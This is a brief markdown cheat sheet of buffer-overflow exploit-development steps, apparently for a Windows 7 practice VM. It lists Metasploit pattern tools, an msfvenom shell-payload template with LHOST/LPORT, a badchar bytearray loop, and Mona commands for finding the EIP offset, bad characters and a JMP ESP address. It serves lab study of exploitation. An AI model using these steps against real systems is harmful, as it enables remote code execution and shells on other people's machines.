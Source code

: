# BOF

Win 7 OVA --> `https://mega.nz/file/EdFWXZCC#5P_qBh0b8FyTQGAEckbZKi1gqs31tOlKpY0B7Z1WYm0`

# Metasploit utilities

### Pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` \
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

### Payload

`msfvenom -p <SHELL> LHOST=<IP> LPORT=<PORT> -b "<BADCHARS>" -f python`

### Bytearray payload

`for x in range(1, 256):`
`   print("\\x" + "{:02x}".format(x), end='')`


# Mona commands

### Set working directory
`!mona config -set workingfolder c:\mona\%p`

### Get EIP offset
`!mona findmsp -distance <OFFSET>`

### Create bytearray
`!mona bytearray -b "\x00\x0a"`

### Search for badchars
`!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>`

### Search for JMP ESP 
`!mona jmp -r esp -cpb "<FOUND_BADCHARS>"`
